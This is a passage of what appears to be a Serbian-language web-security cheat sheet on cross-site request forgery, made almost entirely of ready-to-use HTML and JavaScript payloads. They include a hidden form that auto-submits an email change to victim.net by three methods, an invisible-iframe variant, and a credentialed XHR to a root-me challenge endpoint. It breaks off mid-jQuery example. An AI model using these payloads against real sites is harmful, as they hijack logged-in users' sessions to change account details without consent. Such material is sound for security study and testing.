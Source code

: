 ```html
```

### Form POST zahtev

```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
</html>
```

### Slanje zahteva POST obrasca putem iframe-a

```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### **Ajax POST zahtev**

```html
<script>
var xh;
if (window.XMLHttpRequest)
{// code for IE7+, Firefox, Chrome, Opera, Safari
xh=new XMLHttpRequest();
}
else
{// code for IE6, IE5
xh=new ActiveXObject("Microsoft.XMLHTTP");
}
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
type: "POST",
```